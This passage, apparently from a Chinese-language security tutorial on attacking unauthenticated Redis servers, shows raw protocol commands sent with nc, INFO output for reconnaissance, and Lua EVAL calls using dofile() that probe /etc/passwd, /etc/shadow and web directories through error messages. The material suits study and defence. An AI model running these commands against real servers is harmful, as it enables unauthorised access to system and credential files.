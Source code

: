 接下来我们套用规则来设置这条命令 *3是set命令的代表 然后根据多个参数时的字符串表达式来构造set with_space I am boring这个命令，上面这条命令等价与后面的这条命令

```
$ echo -e  '*3\r\n$3\r\nSET\r\n$10\r\nwith_space\r\n$11\r\nI am boring\r\n' | nc -n -q 1 127.0.0.1 6379 
+OK

```

0x06 信息收集
---------

* * *

经过前面的铺垫，我们可以很好的和服务器进行交互获取我们想要的信息。Redis的一些命令是很有用的，例如”INFO”和”CONFIG GET (dir|dbfilename|logfile|pidfile)＂。这里就把测试机器上的执行＂INFO＂的输出贴出来

```
# Server
redis_version:2.6.0
redis_git_sha1:00000000
redis_git_dirty:0
redis_mode:standalone
os:Linux 3.2.0-61-generic-pae i686
arch_bits:32
multiplexing_api:epoll
gcc_version:4.6.3
process_id:19114
run_id:5a29a860ccbe05b43dbe15c0674fb83df0449b25
tcp_port:6379
uptime_in_seconds:9806
uptime_in_days:0
lru_clock:518932

# Clients
connected_clients:1
client_longest_output_list:0
client_biggest_input_buf:1
blocked_clients:0

# Memory
used_memory:661768
[...]

```

下一步当然是进军文件系统，Redis可以执行Lua脚本(在沙箱中)通过”EVAL”命令。沙箱允许dofile()命令。这条命令能够查看文件和列目录。因为Redis没有特殊的权限，所以请求/etc/shadow时会显示一个”permission denied”的错误信息（与运行redis服务的用户的权限有关）

```
EVAL “ return dofile('/etc/passwd')” 0
-ERR Error running script (call to f_afdc51b5f9e34eced5fae459fc1d856af181aaf1): /etc/passwd:1: function arguments expected near ':' 

EVAL “return dofile('/etc/shadow')” 0
-ERR Error running script (call to f_9882e931901da86df9ae164705931dde018552cb): cannot open /etc/shadow: Permission denied

EVAL “return dofile('/var/www/') ” 0
-ERR Error running script (call to f_8313d384df3ee98ed965706f61fc28dcffe81f23): cannot read /var/www/: Is a directory

EVAL “return dofile('/var/www/tmp_upload/') ”0
-ERR Error running script (call to f_7acae0314580c07e65af001d53ccab85b9ad73b1): cannot open /var/www/tmp_upload/: No such file or directory

EVAL “return dofile('/home/ubuntu/.bashrc')” 0
```